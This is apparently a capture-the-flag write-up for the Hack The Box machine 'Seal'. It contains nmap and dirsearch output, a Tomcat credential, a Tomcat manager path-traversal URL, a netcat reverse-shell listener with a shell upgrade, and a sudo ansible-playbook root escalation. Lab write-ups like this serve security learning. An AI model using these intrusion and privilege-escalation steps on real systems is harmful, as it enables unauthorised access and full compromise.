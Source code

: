 # Seal

## Enumeration

#### Nmap

	# Nmap 7.91 scan initiated Wed Jul 14 18:25:26 2021 as: nmap -v -sC -sV -oN scan 10.129.183.174
	Increasing send delay for 10.129.183.174 from 0 to 5 due to 31 out of 101 dropped probes since last increase.
	Nmap scan report for 10.129.183.174
	Host is up (0.32s latency).
	Not shown: 997 closed ports
	PORT     STATE SERVICE    VERSION
	22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   3072 4b:89:47:39:67:3d:07:31:5e:3f:4c:27:41:1f:f9:67 (RSA)
	|   256 04:a7:4f:39:95:65:c5:b0:8d:d5:49:2e:d8:44:00:36 (ECDSA)
	|_  256 b4:5e:83:93:c5:42:49:de:71:25:92:71:23:b1:85:54 (ED25519)
	443/tcp  open  ssl/http   nginx 1.18.0 (Ubuntu)
	| http-methods: 
	|_  Supported Methods: OPTIONS GET HEAD POST
	|_http-server-header: nginx/1.18.0 (Ubuntu)
	|_http-title: Seal Market
	| ssl-cert: Subject: commonName=seal.htb/organizationName=Seal Pvt Ltd/stateOrProvinceName=London/countryName=UK
	| Issuer: commonName=seal.htb/organizationName=Seal Pvt Ltd/stateOrProvinceName=London/countryName=UK
	| Public Key type: rsa
	| Public Key bits: 2048
	| Signature Algorithm: sha256WithRSAEncryption
	| Not valid before: 2021-05-05T10:24:03
	| Not valid after:  2022-05-05T10:24:03
	| MD5:   9c4f 991a bb97 192c df5a c513 057d 4d21
	|_SHA-1: 0de4 6873 0ab7 3f90 c317 0f7b 872f 155b 305e 54ef
	| tls-alpn: 
	|_  http/1.1
	| tls-nextprotoneg: 
	|_  http/1.1
	8080/tcp open  http-proxy
	| fingerprint-strings: 
	|   FourOhFourRequest: 
	|     HTTP/1.1 401 Unauthorized
	|     Date: Wed, 14 Jul 2021 12:58:54 GMT
	|     Set-Cookie: JSESSIONID=node016q2txdyyt12gbw7kslacd2xd2.node0; Path=/; HttpOnly
	|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
	|     Content-Type: text/html;charset=utf-8
	|     Content-Length: 0
	|   GetRequest: 
	|     HTTP/1.1 401 Unauthorized
	|     Date: Wed, 14 Jul 2021 12:58:51 GMT
	|     Set-Cookie: JSESSIONID=node01drdcpbxvdm3f121yjt90r3s3t0.node0; Path=/; HttpOnly
	|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
	|     Content-Type: text/html;charset=utf-8
	|     Content-Length: 0
	|   HTTPOptions: 
	|     HTTP/1.1 200 OK
	|     Date: Wed, 14 Jul 2021 12:58:52 GMT
	|     Set-Cookie: JSESSIONID=node0menw8751ecl0qf3pfh23ccd1.node0; Path=/; HttpOnly
	|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
	|     Content-Type: text/html;charset=utf-8
	|     Allow: GET,HEAD,POST,OPTIONS
	|     Content-Length: 0
	|   RPCCheck: 
	|     HTTP/1.1 400 Illegal character OTEXT=0x80
	|     Content-Type: text/html;charset=iso-8859-1
	|     Content-Length: 71
	|     Connection: close
	|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
	|   RTSPRequest: 
	|     HTTP/1.1 505 Unknown Version
	|     Content-Type: text/html;charset=iso-8859-1
	|     Content-Length: 58
	|     Connection: close
	|     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
	|   Socks4: 
	|     HTTP/1.1 400 Illegal character CNTL=0x4
	|     Content-Type: text/html;charset=iso-8859-1
	|     Content-Length: 69
	|     Connection: close
	|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x4</pre>
	|   Socks5: 
	|     HTTP/1.1 400 Illegal character CNTL=0x5
	|     Content-Type: text/html;charset=iso-8859-1
	|     Content-Length: 69
	|     Connection: close
	|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x5</pre>
	| http-auth: 
	| HTTP/1.1 401 Unauthorized\x0D
	|_  Server returned status 401 but no WWW-Authenticate header.
	| http-methods: 
	|_  Supported Methods: GET HEAD POST OPTIONS
	|_http-title: Site doesn't have a title (text/html;charset=utf-8).
	1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at s



	Read data files from: /usr/bin/../share/nmap
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	# Nmap done at Wed Jul 14 18:26:44 2021 -- 1 IP address (1 host up) scanned in 78.67 seconds


On port 8080 we got tomcat credentials

	<user username="tomcat" password="42MrHBf*z8{Z%" roles="manager-gui,admin-gui"/>
		</tomcat-users>


#### Dirsearch

```bash
┌──(arundhanush㉿kali)-[~/CTF/HTB/Seal]
└─$ dirsearch -u https://seal.htb                                               
/home/arundhanush/.local/lib/python3.9/site-packages/requests/__init__.py:89: Re version!
  warnings.warn("urllib3 ({}) or chardet ({}) doesn't match a supported "

  _|. _ _  _  _  _ _|_    v0.4.1                                                
 (_||| _) (/_(_|| (_| )                                                         
                                                                                
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist

Output File: /home/arundhanush/.dirsearch/reports/seal.htb/_21-09-05_09-53-12.tx

Error Log: /home/arundhanush/.dirsearch/logs/errors-21-09-05_09-53-12.log

Target: https://seal.htb/
                                                                                
	[09:53:19] Starting: 
	[09:53:28] 302 -    0B  - /js  ->  http://seal.htb/js/
	[09:54:07] 400 -  804B  - /\..\..\..\..\..\..\..\..\..\etc\passwd      
	[09:54:10] 400 -  804B  - /a%5c.aspx                                      
	[09:54:14] 302 -    0B  - /admin  ->  http://seal.htb/admin/                   
	[09:54:44] 302 -    0B  - /css  ->  http://seal.htb/css/                       
	[09:54:55] 302 -    0B  - /host-manager/  ->  http://seal.htb/host-manager/html
	[09:54:55] 403 -  564B  - /host-manager/html
	[09:54:56] 302 -    0B  - /icon  ->  http://seal.htb/icon/                   
	[09:54:57] 302 -    0B  - /images  ->  http://seal.htb/images/                 
	[09:54:58] 200 -   19KB - /index.html                                    
	[09:55:05] 403 -  564B  - /manager/html/                                      
	[09:55:05] 403 -  564B  - /manager/html
	[09:55:05] 302 -    0B  - /manager/  ->  http://seal.htb/manager/html
	[09:55:05] 401 -    2KB - /manager/status/all          
	[09:55:06] 302 -    0B  - /manager  ->  http://seal.htb/manager/     
	                                                                            
	Task Completed      
```

In this dirsearch /manager/status/all is tomcat lets login with our crendentials

https://seal.htb/manager/status/..;/html

Its tomcat/9.0.31 vulnerable to path traversal we have to upload a file  

```bash
┌──(arundhanush㉿kali)-[~/CTF/HTB/Seal]
└─$ nc -nlvp 1234                                                                                                                                               130 ⨯
Listening on 0.0.0.0 1234
Connection received on 10.10.10.250 42398
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@seal:/var/lib/tomcat9$    
```

## Privesc

	luis@seal:~$ sudo -l
	Matching Defaults entries for luis on seal:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User luis may run the following commands on seal:
	    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
	luis@seal:~$ TF=$(mktemp)
	luis@seal:~$ echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
	luis@seal:~$ sudo ansible-playbook $TF
	[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'

	PLAY [localhost] *****************************************************************************************************************************************************

	TASK [Gathering Facts] ***********************************************************************************************************************************************
	ok: [localhost]

	TASK [shell] *********************************************************************************************************************************************************
	# id
	uid=0(root) gid=0(root) groups=0(root)
	
## Rooted

### References

https://access.redhat.com/security/cve/cve-2020-1938

https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/

https://gtfobins.github.io/gtfobins/ansible-playbook/#sudo
